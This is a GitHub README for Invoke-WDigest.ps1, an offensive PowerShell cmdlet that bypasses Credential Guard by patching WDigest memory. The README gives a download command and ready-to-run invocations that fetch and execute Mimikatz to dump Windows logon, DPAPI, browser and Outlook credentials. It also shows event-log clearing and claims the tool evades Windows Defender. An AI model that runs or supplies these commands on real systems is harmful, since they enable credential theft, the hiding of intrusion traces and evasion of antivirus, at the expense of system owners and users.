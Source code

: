 ## Invoke-WDigest.ps1

|Script Name|Description|Privileges|Credits|
|---|---|---|---|
|[Invoke-WDigest](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/Invoke-WDigest.ps1)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|@wh0nsq, @Benjamin_Delpy, @nirsoft|

<br /><br />




|Parameter|Description|Defaul value|
|---|---|---|
|WDigest|Activate WDigest credential caching in Memory?|<b><i>true</i></b>|
|ManyCats|Switch that downloads\executes Mimikatz to dump credentials |<b><i>[Switch]</i></b>|
|RunAs|Switch that prompts user for credential input and store it in memory|<b><i>[Switch]</i></b>|
|DcName|Switch of RunAs command that accepts USER@DOMAIN or DOMAIN\USER<br />Remark: this function requires <b><i>-RunAs</i></b> parameter switch declaration|<b><i>$Env:COMPUTERNAME\\$Env:USERNAME</i></b>|
|Module|Mimikatz selection of dump::modules to auto-run|<b><i>sekurlsa::wdigest exit</i></b>|
|BrowserCreds|Switch that dumps installed browers\outlook credentials [clear-text]|<b><i>[Switch]</i></b>|
|Banner|Print Invoke-WDigest cmdlet banner?|<b><i>true</i></b>|
|DebugMe|Switch that prints onscreen cmdlet error messages|<b><i>[Switch]</i></b>|

<br /><br />

**download Invoke-WDigest.ps1**
> **Warning**: Invoke-WDigest.ps1 cmdlet only bypasses Anti-Virus detection if windows defender its the only AV running in target system.
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.ps1" -OutFile "Invoke-WDigest.ps1"
```

<br />

**run cmdlet:**
```powershell
# Cmdlet help
Get-Help .\Invoke-WDigest.ps1 -full

# Execute Mimikatz (interactive shell) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats

#  Ativate WDigest caching + Execute Mimikatz 'sekurlsa::wdigest exit'
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats

# Ativate WDigest caching + Execute Mimikatz 'net::group sekurlsa::wdigest sekurlsa::logonpasswords' multiple dump modules.
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::logonpasswords sekurlsa::dpapi'

# Execute Mimikatz (multiple dump::modules) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::dpapi event::clear exit'

#  Ativate WDigest caching + Exec Mimikatz pre-sellection of dump::modules
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'auto'

# Dump browsers credentials without WDiget catching
.\Invoke-WDigest.ps1 -wdigest 'false' -browsercreds



[WDIGEST MEMORY CATCHING - FAST DEMONSTRATION]

## WDigest caching + dump (-runas) created credential with mimikatz
.\Invoke-WDigest.ps1 -WDigest 'true' -manycats -runas

WORKFLOW
   - Invoke-WDigest.ps1 Ativates WDigest caching in memory
   - Invoke-WDigest.ps1 prompts user to enter credential to start cmd.exe
     - [Downside] -runas switch pauses cmdlet execution waiting for credential input.
   - WDigest will store (runas) credential input by user in clear-text in memory
     - [Downside] -runas command (wdigest) only stores 'valid' credentials in-memory.   
   - mimikatz will auto-execute 'mimikatz sekurlsa::wdigest exit' to dump credentials

REMARK
   RunAs parameter switch pauses this cmdlet execution until one credential its inputed,
   then starts cmd.exe with suplied credential in a hidden windows (detach from parent).
   Child process its necessary for mimikatz 'sekurlsa::wdigest' dump the cred from Memory.
```

<br />

<b><i>Execute Mimikatz (interactive shell) without WDigest caching</i></b><br />
![interactive](https://user-images.githubusercontent.com/23490060/219967042-4559b463-5e3e-470d-8ffe-5111eae7f015.png)

<br />

<b><i>WDigest caching + dump (-runas) created credential with mimikatz</i></b><br />
![POC2](https://user-images.githubusercontent.com/23490060/219876558-6f68d5cb-e0b7-4bd2-b6e1-689dd8f62792.png)

![POC3](https://user-images.githubusercontent.com/23490060/219876572-e28d1c22-b6a6-456c-a710-2af8e75f339b.png)

<br />

<b><i>Dump browsers credentials without WDiget catching</i></b><br />
![brcreds](https://user-images.githubusercontent.com/23490060/221413695-a227e1c3-fa2d-43e0-9f50-44b0157a5af0.png)<br />
![outlook](https://user-images.githubusercontent.com/23490060/221729426-e7363d4b-fef1-4155-9383-06bbe1479f00.png)


<br />

<b><i>Invoke-WDigest.ps1 only bypasses mimikatz detection if windows defender its the only AV running in target system</i></b><br />
![kapersky](https://user-images.githubusercontent.com/23490060/221858219-efb0ca86-4222-47af-8827-7923c7f10656.png)


<br />

- [Mimikatz modules list](https://tools.thehacker.recipes/mimikatz/modules)
